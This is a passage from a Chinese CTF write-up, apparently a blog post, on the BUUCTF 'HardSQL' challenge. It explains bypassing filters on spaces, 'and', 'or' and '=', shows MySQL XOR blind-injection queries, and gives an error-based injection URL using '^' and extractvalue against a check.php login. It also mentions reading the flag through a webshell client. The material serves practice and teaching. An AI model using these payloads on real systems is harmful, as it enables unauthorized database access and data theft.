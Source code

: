 最后蚁剑链接查看 flag

## [极客大挑战 2019]HardSQL（异或^结合xpath报错注入,left,right取字符）

and or 空格和等于号都被过滤了

空格绕过用注释, `%0a` `%09` 等等都不行

看了 wp 才知道是利用异或 `^` + xpath 报错注入

参考文章 [https://blog.csdn.net/V1040375575/article/details/111712453](https://blog.csdn.net/V1040375575/article/details/111712453)

异或的特性

> a ^ b, 如果 a, b 两个值不相同, 则结果为 1, 如果 a, b 两个值相同, 则结果为 0

mysql 的异或有两个操作符, `^` 和 `XOR`, 前者为按位异或, 后者为逻辑异或

按位异或会把数字或者强制类型转换的字符串 (跟 PHP 类似) 转换成二进制, 然后每一位进行逻辑异或, 最后得出来一个新的数字

逻辑异或只是单纯的根据两边的真假性来得出结果

下面是一个利用异或来进行盲注的示例

```mysql
mysql> use test;
Database changed
mysql> select * from flag;
+------+------------+
| id   | flag       |
+------+------------+
|    1 | flag{test} |
+------+------------+
1 row in set (0.00 sec)

mysql> select * from flag where id=1^(length(database())=4);
Empty set (0.00 sec)

mysql> select * from flag where id=1^(length(database())=3);
+------+------------+
| id   | flag       |
+------+------------+
|    1 | flag{test} |
+------+------------+
1 row in set (0.00 sec)
```

第一条语句后面是 `1^1=0`, 表中没有 id=0 的记录, 所以返回空

第二条语句后面是 `1^0=1`, 故能查询到 id=1 的记录并返回

不过这题没有利用到异或具体的性质, 只是用来替代 and 作为连接符

```
http://ea01a9bb-14f1-4641-b8b8-600e03eb7a04.node4.buuoj.cn:81/check.php
?username=admin'^extractvalue(1,concat(0x7e,(database()),0x7e))%23
&password=123
```
